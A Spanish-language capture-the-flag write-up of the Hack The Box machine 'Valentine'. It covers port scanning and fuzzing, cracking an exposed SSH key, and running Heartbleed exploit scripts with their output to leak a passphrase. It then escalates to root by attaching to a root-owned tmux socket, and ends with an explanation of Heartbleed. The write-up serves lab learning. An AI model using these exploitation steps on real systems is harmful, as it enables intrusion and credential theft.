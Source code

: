 ```yaml
---
layout: single
title: Valentine - Hack The Box
excerpt: "Esta es una máquina fácil que implica la vulnerabildiad 'heartbleed' propio del protocolo https y abuso de socketfiles"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-valentine/valentine1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - https vuln
  - socketfiles  
---
```


# 10.10.10.79 - Valentine
![](/assets/images/htb-valentine/valentine1.png)

--------------

## Part 1. Escaneo de puertos:

```console
└─$ nmap -sCV -T5 10.10.10.79 -Pn -v
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
Discovered open port 22/tcp on 10.10.10.79
22/tcp    open     ssh            OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open     http           Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open     ssl/http       Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
|_http-server-header: Apache/2.2.22 (Ubuntu)
└─$ whatweb http://10.10.10.79
http://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
└─$ whatweb https://10.10.10.79
https://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
```
La peticion por el puerto 443 da error, pero el escaneo reporta que la web se llama Valentine.htb, asi que se añade al /etc/hosts la linea
```10.10.10.79	valentine.htb```

-----------------------
## Part 2: Analizando la web

La web tiene una foto:
![](/assets/images/htb-valentine/valentine2.PNG)

```console
└─$ curl http://valentine.htb/omg.jpg -O 
└─$ exiftool ./omg.jpg
```
Los metadatos no dicen nada interesante.
Disponemos a hacer fuzzing:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.79/FUZZ/
000000001:   200        1 L      2 W        38 Ch       "index"   # -> Lo mismo que la web en sí.                
000000820:   301        9 L      28 W       308 Ch      "dev"                 
000023098:   200        27 L     54 W       554 Ch      "encode"                                             
000024229:   200        25 L     54 W       552 Ch      "decode"                                             
000029887:   200        619 L    5759 W     145482 Ch   "omg"     # -> la foto
```
Si hago fuzzing por extension php me sale tambien /index /decode y /encode. El fuzzing por subdominios no da resultados.

**/dev** nos da directory listing, hay dos archivos notes.txt y hype.key
Hype.key es un archivo en hexadecimal (un monton de bytes)
```console
└─$ cat hype.key | xxd -ps -r
```
Encontramos una llave privada (supongo que para hacer ssh).
/encode y /decode nos codifica texto en base 64, o sea hace el comando ```echo "input" | base64 -w0```, es decir le pasa comandos al sistema. 
Pero la prueba ```test; whoami``` no funciona.

![](/assets/images/htb-valentine/valentine3.PNG)

La id_rsa le damos los permisos 
```console
└─$ chmod 600 ./id_rsa   
└─$ ssh -i id_rsa 10.10.10.79
Enter passphrase for key 'id_rsa': 
```
No tenemos la contraseña pero se pued intentar crackear la llave:
```console
└─$ python3 /usr/share/john/ssh2john.py id_rsa > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
```
-----------------------
## Part 3: Heartbleed

Pero no obtenemos contraseña, tiramos de nmap para que nos busque vulnerabilidades.
```console
└─$ nmap -T5 10.10.10.79 -script vuln  
| ssl-heartbleed: VULNERABLE:
The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
State: VULNERABLE Risk factor: High
OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
```
Nos hablan de la vulnerabilidad HEARTBLEED 
```console
└─$ searchsploit -m multiple/remote/32764.py
└─$ python2 32764.py 10.10.10.79 -p443 | tee archivo.txt
```

Este exploit no me ha sacado nada interesante, pero he encontrado otro [heartbleed](https://github.com/mpgn/heartbleed-PoC)


```console
└─$ python2 heartbleed-exploit.py 10.10.10.79
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
└─$ cat out.txt | xxd -r
```

Nada interesante. Hay que ejecutarlo varias veces...
A la segunda vez nos leakea esto: `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=` Como la cadena 
son letras, numeros y un "=" suponemos que es base64
```console
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=" | base64  -d
heartbleedbelievethehype
```
Parece la contraseña de ssh, el asunto es que ha sido un base64 porque supongo que el creador de 
la maquina habra utilizado su porpia herramienta  "/decode" para "cifrar" la contraseña.
Como la llave era hype_key, podemos entrar con ese usuario:

-----------------------
## Part 4: Entrando en el sistema

```console
└─$ ssh -i id_rsa hype@10.10.10.79;
```
La enumeracion con mi script dice que:
- No hay SUIDS criticos ni capabilities.  
- Este archivo .conf tiene permiso de escritura: ```/home/hype/.config/Trolltech.conf```  
- Ha hecho varios comandos de TMUX (socketfiles) como ```tmux -S /.devs/dev_sess```  
- En la ruta /var/www esta el codigo php de la web (decode, encode y demas)  

```console
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 10 23:23 /.devs/dev_sess
hype@Valentine:~$ export TERM=xterm
hype@Valentine:~$ export SHELL=bash
hype@Valentine:~$ tmux -S /.devs/dev_sess
```
Como el socket_file es de root (archivo que guarda una session en la consola Tmux) se puede reanudar,
teniendo esa consola de root. 

--------------------------------------------

## Extra: Heartbleed

"Corazon sangrante" es una vulnerabilidad que afecta a "OpenSSl 1.0.1 a 1.0.1f"    
Los Cetificados SSL están creados para encriptar las conexiones del protocolo https (por lo que la data que se envia se hace ilegible (encriptada)).    
Paralelamente a esta conexion esta el HEARTBEAT, un reconocimiento que hace el cliente con el servidor para decirle que la conexion sigue abierta: 
le dice una palabra y le pide que se la repita (y como esto no es confidencial no se encripta)    

han llamado "Latido de corazon" porque son dos golpes (pregunta-respuesta)    
Heartbeat normal (latido):     
```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (6letras)".
servidor: "PATATA"
```
El problema con Heartbleed esque le podemos decir que la respuesta sea mas larga que lo esperado.    

```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (600letras)".
servidor: "PATATA, pero como me has pedido 600 letras te contare muchas cosas interesantes más"```
```
Aqui se leakea los datos de la conexion https pero sin encriptar (ya que estos se guardan en la memoria y le hemos hecho sangrar esta misma con 
la respuesta MAS LARGA DE LO NORMAL)  
Leyendo el exploit, nos dice que una peticion HEARTBEAT es tal que asi:  
```
HEADERS:
18 -> Numero que indica que esto es un paquete Heartbeat
03 02 -> version TLS
00 03 -> tamaño (no se de que, supongo que la peticion?)
01 -> peticion de que nos hagan un heartbeat
40 00 -> tamaño de la respuesta que queremos (en decimal, paquetes de 16 384 bytes) 
PAYLOAD: "hello" # -> la palabra que nos tiene que repetir
```